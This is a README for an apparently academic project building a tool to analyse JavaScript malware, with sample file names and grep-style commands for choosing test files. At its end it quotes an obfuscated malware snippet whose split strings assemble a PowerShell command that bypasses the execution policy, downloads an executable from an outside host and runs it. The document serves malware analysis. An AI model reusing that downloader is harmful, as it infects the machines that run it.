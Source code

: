 # aau-security
Web application security project

## PyWare

Tool for analyzing JavaScript malware

To test the tool it is suggested to look at [HynekPetrak/javascript-malware-collection](https://github.com/HynekPetrak/javascript-malware-collection)

### Potential good files to test

* `20170122_38f3734379c19b7bfbb48e9f6ed4ca84.js`
* `20170118_e2e16d7c80ecd56b18d8b159cfda06bf.js`
* `20170323_05a3cc924d4c8c0699f8d72342482e51.js`

We have ~40GiB JavaScript malware, spread in 39480 files selecting good files for debugging and testing can be challenging, the following command is a nice start.

```
ag \"\ "\+"\ \"
```

It tries to find string concatenations and it uses [ag](https://github.com/ggreer/the_silver_searcher).

To find and cat the files from the list use

```
find -name "*20170122_38f3734379c19b7bfbb48e9f6ed4ca84.js" -exec cat {} +
```

Another satisfying command to try is

```
ag \"\;"\n"
```


This patterns seems common, where meaning full strings are breaked by some kind of variable

```
var aznecad = "cmd.exe /c " + amgizann + "  $hemip='^emp+''\ebbydlu.';$ylqilgi='^wnloadFile(''ht';$pequ='^tp://seehasena';$yxfefb='^Scope    Process;';$yhoz='^olicy    Bypass -';$ryhu='^$path); Start-';$yqyv='^exe'');(New-Obj';$vilwidt='^s/outloo.exe'',';$jiwa='^Set-ExecutionP';$wxagyz='^chter.de/Style';$obsesu='^Process $path';$kwezcof='^ect   System.Net';$anezsy='^.Webclient).Do';$iculci='^ $path=($env:t'; Invoke-Expression ($jiwa+$yhoz+$yxfefb+$iculci+$hemip+$yqyv+$kwezcof+$anezsy+$ylqilgi+$pequ+$wxagyz+$vilwidt+$ryhu+$obsesu);\"";
```
